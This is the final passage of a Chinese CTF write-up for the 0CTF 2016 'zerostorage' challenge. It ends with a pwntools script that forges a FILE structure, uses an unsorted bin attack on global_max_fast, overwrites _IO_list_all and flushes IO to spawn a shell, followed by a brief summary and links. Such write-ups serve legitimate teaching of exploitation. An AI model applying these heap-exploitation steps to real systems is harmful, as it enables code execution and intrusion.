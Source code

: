 ```
    heap_addr=heap_base+0x1b90
    fake_file=build_fake_file(io_stderr,heap_addr)
    ## step 2 build a fake file
    update(6,0x1000-0x10,fake_file[0x10:].ljust(0x1000-0x10,'f'))
    ## step 3 form a 0x1410 big chunk with merge funcion
    merge(5,6)

    ## step 4 unsorted bin attack to overwrite global_max_fast
    update(7,0x10,p64(unsorted_addr)+p64(global_max_fast-0x10))
    insert(0x40,'a'*0x40) 
    #pdbg.bp([0x123f,0x15ce])
    update(9,0x60,p64(0)*2+p64(rce)*(0x50/8))
    #pdbg.bp(0x15ce)

    ## step 5 overwrite _IO_list_all 
    delete(2)

    ## step 6 trigger io flush to get shell
    p.recvuntil(":")
    p.sendline('1')
    p.recvuntil(":")
    p.sendline("100")
    p.interactive() #get the shell

if __name__ == '__main__':
   pwn()
```



## 小结

不禁感叹：神奇的堆以及io大法好。相关文件和脚本在我的[github](https://github.com/ray-cp/ctf-pwn/tree/master/PWN_CATEGORY/heap/global_max_fast/0ctf2016-zerostorage)



## 参考链接
1. [0CTF 2016 – Zerostorage Writeup](http://brieflyx.me/2016/ctf-writeups/0ctf-2016-zerostorage/)